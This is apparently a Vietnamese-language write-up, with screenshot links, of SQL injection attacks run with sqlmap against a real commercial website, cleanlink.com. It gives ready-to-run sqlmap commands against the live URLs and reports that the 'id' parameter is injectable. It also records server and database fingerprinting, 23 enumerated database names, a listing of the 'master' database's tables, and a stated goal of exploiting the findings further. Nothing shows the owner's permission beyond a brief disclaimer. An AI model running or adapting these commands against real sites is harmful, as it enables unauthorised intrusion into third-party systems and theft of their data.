 # Mục tiêu
- [x] Tìm kiếm một trang web sử dụng cơ sở dữ liệu MySQL để thực hiện kiểm thử.
- [x] Tìm kiếm các parameter có nguy cơ bị tấn công trên trang web.
- [x] Sử dụng sqlmap để thực hiện tấn công tự động vào các parameter đã tìm được, tìm kiếm nội dung nhạy cảm chứa trong các bảng khác nhau. 
- [ ] Sử dụng thông tin đã tìm được để thực hiện các thao tác tiếp theo.

# Thực nghiệm
Mọi thực nghiệm được áp dụng lên trang web `https://www.cleanlink.com/`. Các cuộc tấn công được thực nghiệm trong lần thực nghiệm này đều nhằm mục đích kiểm thử bảo mật, không mang ý định tấn công người dùng bất hợp pháp.

## Nội dung thực nghiệm

Qua quá trình sử dụng web, tôi đã tìm được một số parameter:
- productType: mã nhóm hàng, xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- sellable: một đoạn ký tự, có thể là một loại mã hoá/hàm băm của một số thông tin như mã hàng, số lượng hàng còn trong kho, mặt hàng có đang được tiếp tục sản xuất không, ... Xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- appearance: mã ngoại hình (màu sắc??), xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- size: kích cỡ (còn trong kho), xuất hiện khi chọn một sản phẩm bất kỳ trong `Marketplace`.
- id: xuất hiện ở một số mục nhất định, chưa rõ trang web sử dụng vào việc gì cũng như truy xuất như thế nào.

Sử dụng sqlmap lên URL chứa các parameter đã tìm được để kiểm thử:

```bash
python3 sqlmap.py -u "https://cleanlink.myspreadshop.com/my+super+power+is+listening+to+complaints-A63e51b0399b27e58820f894e?productType=842&sellable=74R1qG1XbXf1p0banev8-842-33&appearance=2&size=29" --dbs
```

- **productType**, **sellable**, **appearance**, **size**: Có vẻ các parameter này không thể được sử dụng để thực hiện tấn công SQLi. Câu lệnh của sqlmap khi được thực hiện liền trả về thông báo lỗi 406.

![alt text](images/1.png)

```bash
python3 sqlmap.py -u "https://www.cleanlink.com/cleanlinkminute/details.aspx?id=37485" --dbs
```

- **id**: có thể thực hiện tấn công SQLi, sqlmap trả về được thông tin của máy chủ và cơ sở dữ liệu như `web server operating system: Windows 2019 or 2022 or 11 or 10 or 2016`, `web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0`, `back-end DBMS: Microsoft SQL Server 2019`. Ngoài ra đã bruteforce được tên 23 cơ sở dữ liệu, trong đó có `master` (vị trí lưu mật khẩu, tài khoản mặc định của MSSQL):

![alt text](images/2.png)

Khi đã xác định được thông tin về cơ sở dữ liệu, ta có thể sử dụng thêm các tuỳ chọn `-D` (tìm kiếm trên một database nhất định), `-T` (tìm kiếm trên một table nhất định), `-C` (tìm kiếm trên một column nhất định), `--tables` (tìm kiếm thông tin về tên các table), `--dump` (trả về tất cả thông tin trong bảng), `--threads` (sử dụng đa luồng để tìm kiếm thông tin, tăng tốc độ bruteforce),...

Sử dụng `python3 sqlmap.py -u "https://www.cleanlink.com/cleanlinkminute/details.aspx?id=37485" -D master --tables --threads=10`.

![alt text](images/3.png)

Có thể thấy dòng lệnh trả về một bố bảng, nhưng khi thực hiện SQLi sâu hơn thì trả về kết quả bẳng trống. Nguyên nhân có thể là do người dùng admin đã chặn các loại truy cập không mong muốn, hoặc ứng dụng web có lỗi liên quan đến cơ sở dữ liệu, hoặc sqlmap không thể xuyên qua được các lớp bảo mật của cơ sở dữ liệu...